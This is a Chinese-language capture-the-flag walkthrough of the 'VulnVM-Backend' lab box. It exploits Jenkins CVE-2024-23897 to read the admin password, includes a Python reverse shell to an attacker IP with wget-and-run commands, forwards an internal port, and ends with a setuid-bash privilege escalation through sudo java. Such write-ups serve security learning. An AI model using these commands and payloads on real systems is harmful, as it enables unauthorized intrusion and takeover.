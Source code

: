 ```yaml
---
title: "VulnVM-Backend"
date: 2025-03-05
categories: 
  - "vulnvm"
tags: 
  - "linux"
  - "vulnvm"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Backend  
❯ nmap 192.168.237.148 -sV -A -p- 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ec:8d:c2:a6:1e:52:43:62:44:29:36:58:73:15:6b (RSA)
|   256 0d:39:f5:86:a1:fc:7d:ba:c6:55:14:37:2c:91:fe:37 (ECDSA)
|_  256 d6:91:b0:62:48:85:9c:51:dd:f9:20:35:d2:53:a6:25 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
MAC Address: 00:0C:29:42:20:88 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## CVE-2024-23897

进入**8080**端口发现是一个**Jenkins**的登录页面

![](./images/image-75.png)

经过测试，**弱口令**和**SQL注入**的情况并不存在

搜索得到一个任意文件读取的漏洞

- [Jenkins Security Advisory 2024-01-24](https://www.jenkins.io/security/advisory/2024-01-24/)

![](./images/image-76.png)

在网上找了两个脚本

- [xaitax/CVE-2024-23897: CVE-2024-23897 | Jenkins <= 2.441 & <= LTS 2.426.2 PoC and scanner.](https://github.com/xaitax/CVE-2024-23897)

- [wjlin0/CVE-2024-23897: CVE-2024-23897 - Jenkins 任意文件读取 利用工具](https://github.com/wjlin0/CVE-2024-23897)

但是都只能读取到一行？？，我找找其他的方法

可以访问**/jnlpJars/jenkins-cli.jar**下载到**jar**包，根据**vulnhub**里面的介绍，尝试读取一下登录密码

- [vulhub/jenkins/CVE-2024-23897 at master · vulhub/vulhub](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

![](./images/image-77.png)

```
admin:da1c139ad3ba437184b29528e6f24098
```

成功登录到后台，版本是**2.441**

![](./images/image-79.png)

## Own jenkins

进入到命令执行的部分

![](./images/image-80.png)

可以执行以下命令

```
println "whoami".execute().text
println "cat /etc/passwd".execute().text
```

![](./images/image-81.png)

尝试读取**id\_rsa**密钥，发现没有

```
println "ls -al /home/jenkins/.ssh/".execute().text
```

![](./images/image-82.png)

但是可以把我们自己的密钥加到**authorized\_key**中

先做个反弹**Shell**吧，这里无法直接在控制台中反弹，需要上传一个脚本，可以参考👇

- [Jenkins未授权访问漏洞复现与 getshell 利用方法汇总\_jenkins getshell-CSDN博客](https://blog.csdn.net/weixin_40412037/article/details/120369441)

```
#!/usr/bin/python
# This is a Python reverse shell script

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.237.147",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

然后上传执行

```
println "wget http://192.168.237.147/revshell.py -P /tmp/".execute().text
println "python3 /tmp/revshell.py".execute().text
```

成功得到反弹**shell**

![](./images/image-83.png)

接下来是将我们的公钥添加到**authorized\_keys**中

![](./images/image-84.png)

然后成功使用**SSH**登录

![](./images/image-85.png)

![](./images/image-86.png)

## Own tranquil

发现内部**80**端口开放了

![](./images/image-87.png)

并且看到**home**里的另一个用户所属组是**www-data**

![](./images/image-88.png)

先将端口转出来

```
[root@kali] /home/kali/easypwn  
❯ ssh -i ~/.ssh/id_rsa  jenkins@192.168.237.148 -L 8888:127.0.0.1:80   
```

然后访问**/uploadimages.php**，是一个命令执行的终端

![](./images/image-89.png)

当前目录没有写的权限，反弹**shell**也失败，可以**cat**看看这个**php**的源码是什么

![](./images/image-90.png)

可以看到使用了**escapeshellcmd**函数，以下这些都会被过滤

```
\ ' " $  ; & | < >`。
```

因此只能尝试读取文件了

```
ls /home/tranquil/backup -al
```

![](./images/image-92.png)

刚好发现了私钥，因此可以直接使用来登录

![](./images/image-93.png)

## Root

查看特殊命令

```
tranquil@backend:~$ sudo -l
Matching Defaults entries for tranquil on backend:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tranquil may run the following commands on backend:
    (ALL) NOPASSWD: /usr/bin/java
```

准备一个恶意的**java**代码

```
import java.io.IOException;

public class evil   {
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("chmod u+s /bin/bash");
    }
}
```

然后打包成**jar**包

![](./images/image-95.png)

然后执行即可拿到**root**权限

![](./images/image-96.png)

## Summary

`User`：通过**Jenkins**的**任意文件读取**漏洞，获得默认的管理员密码。进入到后台的命令控制台，执行反弹**Shell**，写入公钥登录拿到**jenkins**用户的权限。将内网端口转发出来，发现存在一个读取文件的PHP文件，由于**tranquil**的目录配置问题，读取到他的私钥，从而获取到**tranquil**的权限。

`Root`：**tranquil**能以**root**的身份运行**java**命令，因此可以构造恶意**java**代码来提权。
